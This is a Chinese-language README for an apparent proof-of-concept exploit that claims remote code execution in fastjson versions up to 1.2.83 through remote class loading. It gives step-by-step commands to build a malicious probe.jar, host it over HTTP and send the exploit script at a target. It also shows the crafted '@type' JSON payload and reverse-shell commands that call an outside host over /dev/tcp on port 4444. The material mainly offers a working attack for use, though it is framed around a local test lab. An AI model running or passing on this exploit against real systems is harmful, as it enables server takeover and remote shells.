

# fastjson <= 1.2.83 任意代码执行漏洞

## 漏洞概述

Fastjson 1.2.66 ~ 1.2.83 `checkAutoType` 中 `@JSONType` 注解探测路径存在远程类加载漏洞。无需 autoTypeSupport，无需第三方依赖，safeMode 未启用（默认）即可 RCE。

条件：Spring Boot FatJar + JDK 8 + 目标能出网

## 使用

### Step 1: 启动靶场

```bash
java -jar fastjson-rce-env-1.0.0.jar
```

访问 http://127.0.0.1:18080/ 确认启动成功

### Step 2: 生成 probe.jar

```bash
# 编译
javac -cp "poc/lib/*" -d poc poc/GenProbe.java

# 生成（参数: IP 端口 命令）
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" GenProbe 127.0.0.1 19090 "open -a Calculator"
```

Windows 弹计算器改最后参数为 `"calc"`，反弹 shell 改为 `"bash -i >& /dev/tcp/VPS/4444 0>&1"`

### Step 3: 启动 HTTP 托管

```bash
cd poc/www && python3 -m http.server 19090
```

### Step 4: 弹计算器

```bash
python3 poc/exp.py -u http://127.0.0.1:18080/parse -poc http://127.0.0.1:19090/probe
```



## 注意

- **每次测试必须重启靶场**（Step 1），JVM 会缓存类加载结果
- 操作顺序：Step 1 → Step 2 → Step 3 → Step 4（HTTP 托管要在打 exp 之前启动）
- 如果 exp.py 超时但 HTTP 托管端看到 `GET /probe` 请求，说明 RCE 已触发

## 自定义命令

重新生成 probe.jar：

```bash
javac -cp "poc/lib/*" -d poc poc/GenProbe.java
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" GenProbe <IP> <端口> <命令>
```

```bash
# macOS
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" GenProbe 127.0.0.1 19090 "open -a Calculator"

# Windows
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" GenProbe 192.168.1.100 19090 "calc"

# 反弹 shell
java -cp "poc:poc/lib/asm-9.6.jar:poc/lib/fastjson-1.2.83.jar" GenProbe 1.2.3.4 19090 "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1"
```

## 漏洞原理

```
payload: {"@type":"jar:http:..2130706433:19090.probe!.POC","x":1}
                     ↓ Fastjson: typeName.replace('.', '/') + ".class"
resource: "jar:http://127.0.0.1:19090/probe!/POC.class"
                     ↓ LaunchedURLClassLoader.getResourceAsStream()
远程下载 jar → 检测到 @JSONType → loadClass → <clinit> 执行 → RCE
```
